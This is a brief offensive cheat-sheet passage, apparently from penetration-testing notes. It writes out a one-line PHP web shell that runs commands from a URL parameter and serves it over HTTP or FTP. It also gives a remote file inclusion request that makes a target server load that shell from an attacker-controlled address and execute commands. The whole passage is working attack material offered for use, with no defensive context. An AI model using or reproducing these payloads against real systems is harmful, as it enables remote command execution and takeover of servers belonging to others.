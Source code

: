 Host web shell

```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server 8080
echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m pyftpdlib -p 21
```

Include remote PHP web shell (Windows)

```sh
/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
